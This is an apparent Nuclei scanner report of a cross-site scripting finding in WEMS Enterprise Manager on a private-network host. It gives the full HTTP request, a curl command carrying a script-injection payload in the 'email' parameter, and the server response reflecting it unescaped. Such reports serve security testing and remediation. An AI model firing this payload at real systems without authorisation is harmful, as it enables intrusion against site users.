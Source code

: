 ### WEMS Enterprise Manager - Cross-Site Scripting (wems-manager-xss) found on http://192.168.198.179:8080/
---
**Details**: **wems-manager-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/guest/users/forgotten?email=%22%3E%3Cscript%3Econfirm(document.domain)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:10 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WEMS Enterprise Manager - Cross-Site Scripting |
| Authors | pikpikcu |
| Tags | xss |
| Severity | medium |
| Description | A vulnerability in WEMS Enterprise Manager allows remote attackers to inject arbitrary Javascript into the response return by the server by sending it to the '/guest/users/forgotten' endpoint and the 'email' parameter. |

**Request**
```http
GET /guest/users/forgotten?email=%22%3E%3Cscript%3Econfirm(document.domain)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 213
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/guest/users/forgotten?email="><script>confirm(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://packetstormsecurity.com/files/155777/wems-enterprise-manager-2.58-cross-site-scripting.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://192.168.198.179:8080/guest/users/forgotten?email=%22%3E%3Cscript%3Econfirm(document.domain)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)